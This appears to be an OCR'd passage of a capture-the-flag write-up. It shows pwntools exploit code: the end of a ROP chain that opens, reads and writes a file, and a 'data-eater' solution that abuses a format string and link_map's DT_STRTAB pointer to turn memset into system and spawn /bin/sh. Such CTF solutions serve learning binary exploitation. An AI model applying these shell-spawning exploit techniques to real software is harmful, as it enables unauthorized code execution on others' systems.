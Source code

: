 ```python

rop.open(dst_filename, 0)
rop.read(fd, dst_filename, 128)
rop.write(1, dst_filename, 128)


rop.exit(0)


# -------------------------------------------------


real_payload = rop.chain()

payload = p64(len(real_payload)) + p64(rip_addr)
xwrite(2, payload)

xwrite(0, real_payload)

# gdb.attach(r)

r.sendline(b"E0")

sleep(0.1)

print(r.recv())

```

### pwn/data-eater
There's usually a pointer to `link_map` on the stack somewhere, so just write some data to `buf` and overwrite the `DT_STRTAB` pointer in `link_map->l_info`.

The offset to `link_map` varies a little bit but this should cover most of the possibilities.

```python=
def sice(k):
  print(k)
  try:
    # do pwning
    r = conn()
    r.sendline(f'%s%{k}$s')
    r.sendline(b'/bin/sh\0' + p64(exe.sym['buf'] + 16 - exe.section('.dynstr').index(b'memset\x00')) + b'system\0 ' + p64(0)*13 + p64(exe.sym['buf'])[:-1])

    # make sure we got a shell
    r.recv(timeout=0.1)
    r.sendline('echo ginkoid')
    r.recvuntil('ginkoid')

    r.interactive()
    return True
  except EOFError:
    return False
  finally:
    r.close()

for k in range(30, 50):
  if sice(k): break
```
